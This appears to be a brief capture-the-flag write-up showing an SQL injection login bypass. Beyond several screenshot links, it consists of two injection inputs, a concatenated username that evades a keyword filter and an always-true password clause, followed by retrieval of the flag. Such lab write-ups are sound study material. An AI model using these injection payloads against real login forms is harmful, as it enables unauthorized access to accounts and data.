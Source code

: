 SQlI for this:


![image](https://github.com/nhattanhh/CTF/assets/130430279/b8008fdb-b9ae-4460-bbba-0b9d15aceb43)


With this filter:


![image](https://github.com/nhattanhh/CTF/assets/130430279/b2feab1c-eeb7-4bf0-aa83-5420608749a9)


- username: ad'||'min
  
- password: a' IS NOT 'b


![image](https://github.com/nhattanhh/CTF/assets/130430279/9e8a38c9-4d91-4218-a83a-897a8083814c)


=> Successful bypass, refresh filter page and get the flag.


![image](https://github.com/nhattanhh/CTF/assets/130430279/1afbcf8c-3f38-4b74-b3a1-f982ae44accd)
